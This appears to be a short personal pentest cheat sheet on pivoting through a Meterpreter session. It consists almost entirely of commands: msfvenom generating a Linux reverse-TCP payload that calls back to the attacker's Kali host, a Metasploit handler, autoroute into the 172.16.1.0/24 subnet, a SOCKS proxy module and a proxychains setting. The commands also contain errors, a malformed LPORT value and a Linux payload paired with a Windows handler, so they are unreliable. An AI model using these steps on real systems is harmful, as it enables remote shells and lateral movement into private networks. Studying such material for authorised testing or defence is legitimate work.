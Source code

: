 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

PIVOT USING AUTOROUTE IN METERPRETER SESSION

```bash - kali
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$KALI LPORT=<443 -f elf > shell-x64.elf
```

```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

```meterpreter - kali
run autoroute -s 172.16.1.0/24
```

```meterpreter - kali
run autoroute -p
```

```meterpreter - kali
background
```

```meterpreter - kali
use auxiliary/server/socks_proxy

```

```meterpreter - kali
info
```

```meterpreter - kali
options
```

```meterpreter - kali
run
```

sudo mousepad /etc/proxychains4.conf

socks5 127.0.0.1 1080


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

